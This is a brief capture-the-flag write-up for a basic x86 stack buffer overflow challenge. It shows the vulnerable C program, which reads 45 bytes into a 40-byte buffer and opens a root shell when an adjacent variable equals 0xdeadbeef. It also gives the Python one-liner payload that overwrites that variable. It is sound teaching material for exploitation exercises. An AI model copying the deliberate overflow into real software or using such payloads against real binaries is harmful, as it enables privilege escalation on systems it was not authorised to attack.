

# ELF x86 - Stack buffer overflow basic 1

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

In this challenge, func `fgets(buf,45,stdin)` allows us input 44 characters but array `buf` has 40 only. 
<br /><br />So, the idea is overwrite var `check=0xdeadbeef` to get shellcode.
<br /><br />We will input 40 * A and variable 0xdeadbeef in little endian
<br /><br />with `python -c "print 'A'*40+'\xef\xbe\xad\xde'"`
<br /><br />

